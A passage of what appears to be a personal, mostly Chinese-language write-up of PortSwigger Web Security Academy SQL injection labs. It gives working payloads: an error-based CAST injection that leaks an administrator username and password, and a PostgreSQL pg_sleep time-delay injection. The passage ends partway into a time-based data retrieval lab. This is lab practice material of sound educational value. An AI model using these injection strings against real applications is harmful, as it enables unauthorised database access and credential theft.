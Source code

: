 ```sql
CAST((SELECT example_column FROM example_table) AS int)
```

Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an int, may cause an error similar to the following:

```
ERROR: invalid input syntax for type integer: "Example data"
```

嘗試了很多組合，最終發現這樣可以印出 `ERROR: invalid input syntax for type boolean: "administrator"`

```sql
SELECT * FROM tracking WHERE id = '' OR CAST((SELECT username FROM users LIMIT 1) AS boolean)--'
```

我猜測是 trackingId 有限制長度？因為太長的 SQL 語法會被截斷，還好第一筆就是 `administrator`，這樣就可以成功拿到密碼了

```sql
SELECT * FROM tracking WHERE id = '' OR CAST((SELECT password FROM users LIMIT 1) AS boolean)--'
```

P.S. 解完這題之後，回頭看 Solution，發現真的有限制 trackingId 的長度，而且 Solution 提供的答案跟我一樣，都是用 `LIMIT 1` 賽到的

```
Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.
```

## Lab: Blind SQL injection with time delays

| Dimension | Description                                                                                                       |
| --------- | ----------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection/blind#exploiting-blind-sql-injection-by-triggering-time-delays |
| Lab       | https://portswigger.net/web-security/sql-injection/blind/lab-time-delays                                          |

這題主要應該是要猜用什麼 DB，嘗試很多次，最終猜到是 PostgreSQL

```sql
' OR (SELECT pg_sleep(10)) IS NOT NULL--
```

## Lab: Blind SQL injection with time delays and information retrieval

| Dimension | Description                                                                                                       |
| --------- | ----------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection/blind#exploiting-blind-sql-injection-by-triggering-time-delays |
| Lab       | https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval                           |

承接上一題，我猜這題也是用 PostgreSQL，我覺得最麻煩的是不同 SQL Database 的語法不一樣

我們分析一下這段 SQL，這在 PostgreSQL 會出錯，因為 OR 條件的結果不是 Boolean
